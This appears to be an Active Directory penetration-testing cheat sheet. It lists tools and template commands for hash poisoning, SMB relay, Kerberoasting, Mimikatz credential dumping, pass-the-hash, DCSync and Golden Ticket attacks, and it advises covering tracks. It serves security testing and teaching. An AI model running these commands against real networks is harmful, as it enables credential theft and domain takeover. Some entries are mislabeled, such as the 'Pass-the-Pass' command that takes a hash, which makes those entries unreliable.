 ### 1. Initial Access and Reconnaissance

#### LLMNR/NBT-NS Poisoning

- **Tools**: Responder, Inveigh
- **Description**: Poison LLMNR and NBT-NS requests to capture NTLMv2 hashes.
- **Execution**:
    - Run Responder to capture hashes.
    - Crack hashes offline using tools like Hashcat or John the Ripper.

#### Network Scanning

- **Tools**: Nmap, Netdiscover
- **Description**: Identify live hosts and open ports.
- **Execution**:
    - Use Nmap to scan the network (`nmap -sP <network_range>`).
    - Identify services running on live hosts (`nmap -sV <ip_address>`).

### 2. Credential Theft and Lateral Movement

#### SMB Relay

- **Tools**: Responder, NTLMRelayX
- **Description**: Relay captured SMB authentication attempts to other network services.
- **Execution**:
    - Set up Responder to capture NTLM hashes.
    - Use NTLMRelayX to relay the captured hashes (`ntlmrelayx.py -tf targets.txt -smb2support`).

#### IPv6 Attacks

- **Tools**: MITMf, Responder
- **Description**: Exploit IPv6 to capture credentials.
- **Execution**:
    - Enable IPv6 poisoning in Responder.
    - Capture and relay hashes using MITMf (`mitmf --arp --spoof --gateway <gateway_ip> --targets <target_ip>`).

#### Kerberoasting

- **Tools**: Rubeus, GetUserSPNs.py
- **Description**: Extract service account hashes from Kerberos tickets.
- **Execution**:
    - Use GetUserSPNs.py to list SPNs and extract TGS tickets (`GetUserSPNs.py -request`).
    - Crack the tickets offline using Hashcat (`hashcat -m 13100 <hash_file>`).

### 3. Persistence and Privilege Escalation

#### Pass-the-Hash

- **Tools**: Mimikatz, CrackMapExec
- **Description**: Use captured NTLM hashes to authenticate.
- **Execution**:
    - Extract hashes using Mimikatz (`mimikatz # sekurlsa::logonpasswords`).
    - Authenticate with CrackMapExec (`cme smb <ip> -u <user> -H <hash>`).

#### Pass-the-Pass

- **Tools**: Mimikatz
- **Description**: Use plaintext passwords to authenticate.
- **Execution**:
    - Use Mimikatz to pass plaintext passwords (`mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>`).

#### Token Impersonation

- **Tools**: Mimikatz
- **Description**: Impersonate tokens to escalate privileges.
- **Execution**:
    - Extract tokens using Mimikatz (`mimikatz # token::elevate`).

#### LNK File Attacks

- **Tools**: Social Engineering Toolkit (SET)
- **Description**: Create malicious LNK files to execute code.
- **Execution**:
    - Use SET to generate LNK payloads and distribute them.

### 4. Domain Dominance

#### GPP Attacks

- **Tools**: gpp-decrypt, PowerSploit
- **Description**: Decrypt passwords stored in Group Policy Preferences (GPP).
- **Execution**:
    - Extract and decrypt passwords using gpp-decrypt (`gpp-decrypt <cpassword>`).
    - Use PowerSploit to automate GPP password extraction.

#### Mimikatz for Credential Dumping

- **Tools**: Mimikatz
- **Description**: Extract plaintext passwords, hashes, and Kerberos tickets.
- **Execution**:
    - Run Mimikatz to dump credentials (`mimikatz # sekurlsa::logonpasswords`).

#### Pivoting

- **Tools**: ProxyChains, SSH Tunneling
- **Description**: Use compromised machines as a pivot to reach other network segments.
- **Execution**:
    - Set up SSH tunneling (`ssh -L <local_port>:<remote_ip>:<remote_port> <user>@<gateway_ip>`).
    - Configure ProxyChains to use the tunnel (`proxychains nmap -sT <target_ip>`).

### 5. Gaining Domain Controller Access

#### DCSync Attack

- **Tools**: Mimikatz
- **Description**: Simulate the behavior of a domain controller to extract credentials.
- **Execution**:
    - Use Mimikatz to perform a DCSync attack (`mimikatz # lsadump::dcsync /user:<username>`).

#### Golden Ticket Attack

- **Tools**: Mimikatz
- **Description**: Create a forged Kerberos ticket to gain persistent access.
- **Execution**:
    - Extract the KRBTGT hash using Mimikatz (`mimikatz # lsadump::lsa /inject /name:krbtgt`).
    - Create a Golden Ticket (`mimikatz # kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>`).

### Summary

1. **Initial Access**: LLMNR/NBT-NS Poisoning, Network Scanning
2. **Credential Theft and Lateral Movement**: SMB Relay, IPv6 Attacks, Kerberoasting
3. **Persistence and Privilege Escalation**: Pass-the-Hash, Pass-the-Pass, Token Impersonation, LNK File Attacks
4. **Domain Dominance**: GPP Attacks, Mimikatz for Credential Dumping, Pivoting
5. **Gaining Domain Controller Access**: DCSync Attack, Golden Ticket Attack

### Important Considerations

- **Stealth**: Use tools and techniques that minimize detection.
- **Logs and Forensics**: Be aware of logging and forensics to cover your tracks.
- **Rules of Engagement**: Always operate within the agreed-upon scope and rules of engagement for the penetration test.